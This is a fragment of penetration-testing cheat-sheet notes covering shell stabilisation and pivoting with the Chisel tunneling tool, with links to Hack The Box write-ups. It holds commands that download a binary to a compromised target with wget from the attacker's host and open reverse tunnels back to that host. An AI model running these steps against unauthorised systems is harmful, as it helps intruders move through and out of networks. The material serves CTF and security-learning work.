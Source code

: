 ```bash
stty raw -echo; fg
```

```bash
stty rows <rows> columns <cols>
```

---

# Tunneling

## Chisel
[https://github.com/jpillora/chisel](https://github.com/jpillora/chisel)

[https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html](https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html)

Used here : [https://0xdf.gitlab.io/2022/05/03/htb-antique.html](https://0xdf.gitlab.io/2022/05/03/htb-antique.html)

```bash
python3 -m http.server
```

```bash
cd /tmp
wget $ip/chisel_1.7.7_linux_amd64
chmod +x chisel
```

I’ll run the binary in server mode on my box:

```bash
./chisel_1.7.7_linux_amd64 server -p <port> --reverse
```

Now I’ll connect with chisel from the container:

```bash
./chisel_1.7.7_linux_amd64 client $my_ip:<port> R:<port to forward>:<target ip>:<port to forward>
```

#### example

forwarding port `5985` from the docker container

- my machine
```bash
./chisel server -p 5000 --reverse
```

- target machine
```bash
./chisel client <tun0 ip>:<port> R:<port to forward>:<target ip>:<port to forward>
```

#### forward 2 ports at the same time
